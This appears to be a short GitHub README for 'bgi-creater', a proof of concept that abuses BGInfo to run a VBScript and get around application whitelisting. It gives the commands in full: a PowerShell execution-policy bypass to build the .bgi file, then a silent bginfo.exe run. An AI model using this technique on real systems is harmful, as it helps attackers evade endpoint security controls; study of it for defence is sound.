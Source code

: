 # bgi-creater

### A quick POC

Use BGInfo to bypass Application Whitelisting

Learn from Oddvar Moe [MVP]@Oddvarmoe,many thanks to him

Link: https://msitpros.com/?p=3831


**Usage:**

**1. set the path of cmd.vbs**

change bgi.ps1

**2. use bgi.ps1 to create test1.bgi**

cmd:

`powershell -executionpolicy bypass -file ./bgi.ps1`

**3.run it**

cmd:

`bginfo.exe test1.bgi /timer:0 /nolicprompt /silent`
